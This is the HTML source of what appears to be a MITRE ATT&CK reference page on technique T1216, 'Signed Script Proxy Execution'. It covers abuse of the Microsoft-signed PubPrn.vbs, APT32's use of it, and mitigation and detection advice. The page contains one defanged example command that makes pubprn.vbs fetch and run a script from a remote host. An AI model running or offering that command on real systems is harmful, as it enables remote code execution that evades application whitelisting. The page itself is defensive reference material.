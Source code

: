 <div class="container-fluid">
 <h1>
  Signed Script Proxy Execution
 </h1>
 <div class="row">
  <div class="col-md-8 description-body">
   <p>
    Scripts signed with trusted certificates can be used to proxy execution of malicious files. This behavior may bypass signature validation restrictions and application whitelisting solutions that do not account for use of these scripts.
   </p>
   <p>
    PubPrn.vbs is signed by Microsoft and can be used to proxy execution from a remote site.
    <span class="scite-citeref-number" data-reference="Enigma0x3 PubPrn Bypass" id="scite-ref-1-a">
     <sup>
      <a aria-describedby="qtip-0" data-hasqtip="0" href="https://enigma0x3.net/2017/08/03/wsh-injection-a-case-study/" target="_blank">
       [1]
      </a>
     </sup>
    </span>
    Example command:
    <code>
     cscript C[:]\Windows\System32\Printing_Admin_Scripts\en-US\pubprn[.]vbs 127.0.0.1 script:http[:]//192.168.1.100/hi.png
    </code>
   </p>
   <p>
    There are several other signed scripts that may be used in a similar manner.
    <span class="scite-citeref-number" data-reference="GitHub Ultimate AppLocker Bypass List" id="scite-ref-2-a">
     <sup>
      <a aria-describedby="qtip-1" data-hasqtip="1" href="https://github.com/api0cradle/UltimateAppLockerByPassList" target="_blank">
       [2]
      </a>
     </sup>
    </span>
   </p>
  </div>
  <div class="col-md-4">
   <div class="card">
    <div class="card-body">
     <div class="card-data">
      <span class="h5 card-title">
       ID
      </span>
      : T1216
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Tactic
      </span>
      : Defense Evasion, Execution
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Platform:
      </span>
      Windows
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Permissions Required:
      </span>
      User
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Data Sources:
      </span>
      Process monitoring, Process command-line parameters
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Supports Remote:
      </span>
      No
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Defense Bypassed:
      </span>
      Application whitelisting, Digital Certificate Validation
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Contributors:
      </span>
      Praetorian
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Version
      </span>
      : 1.0
     </div>
    </div>
   </div>
  </div>
 </div>
 <h2 class="pt-3" id="examples">
  Examples
 </h2>
 <table class="table table-bordered table-light mt-2">
  <thead>
   <tr>
    <th scope="col">
     Name
    </th>
    <th scope="col">
     Description
    </th>
   </tr>
  </thead>
  <tbody class="bg-white">
   <tr>
    <td>
     <a href="https://attack.mitre.org/groups/G0050">
      APT32
     </a>
    </td>
    <td>
     <p>
      <a href="https://attack.mitre.org/groups/G0050">
       APT32
      </a>
      has used PubPrn.vbs within execution scripts to execute malware, possibly bypassing defenses.
      <span class="scite-citeref-number" data-reference="Twitter ItsReallyNick Status Update APT32 PubPrn" id="scite-ref-3-a" onclick="scrollToRef('scite-3')">
       <sup>
        <a aria-describedby="qtip-2" data-hasqtip="2" href="https://twitter.com/ItsReallyNick/status/944321013084573697" target="_blank">
         [3]
        </a>
       </sup>
      </span>
     </p>
    </td>
   </tr>
  </tbody>
 </table>
 <h2 class="pt-3" id="mitigation">
  Mitigation
 </h2>
 <p>
  Certain signed scripts that can be used to execute other programs may not be necessary within a given environment. Use application whitelisting configured to block execution of these scripts if they are not required for a given system or network to prevent potential misuse by adversaries.
 </p>
 <h2 class="pt-3" id="detection">
  Detection
 </h2>
 <p>
  Monitor script processes, such as cscript, and command-line parameters for scripts like PubPrn.vbs that may be used to proxy execution of malicious files.
 </p>
 <h2 class="pt-3" id="references">
  References
 </h2>
 <div class="row">
  <div class="col">
   <ol>
    <li>
     <span class="scite-citation" id="scite-1">
      <span class="scite-citation-text">
       <a class="external text" href="https://enigma0x3.net/2017/08/03/wsh-injection-a-case-study/" name="scite-1" rel="nofollow" target="_blank">
        Nelson, M. (2017, August 3). WSH INJECTION: A CASE STUDY. Retrieved April 9, 2018.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-2">
      <span class="scite-citation-text">
       <a class="external text" href="https://github.com/api0cradle/UltimateAppLockerByPassList" name="scite-2" rel="nofollow" target="_blank">
        Moe, O. (2018, March 1). Ultimate AppLocker Bypass List. Retrieved April 10, 2018.
       </a>
      </span>
     </span>
    </li>
   </ol>
  </div>
  <div class="col">
   <ol start="3.5">
    <li>
     <span class="scite-citation" id="scite-3">
      <span class="scite-citation-text">
       <a class="external text" href="https://twitter.com/ItsReallyNick/status/944321013084573697" name="scite-3" rel="nofollow" target="_blank">
        Carr, N. (2017, December 22). ItsReallyNickk Status Update. Retrieved April 9, 2018.
       </a>
      </span>
     </span>
    </li>
   </ol>
  </div>
 </div>
</div>
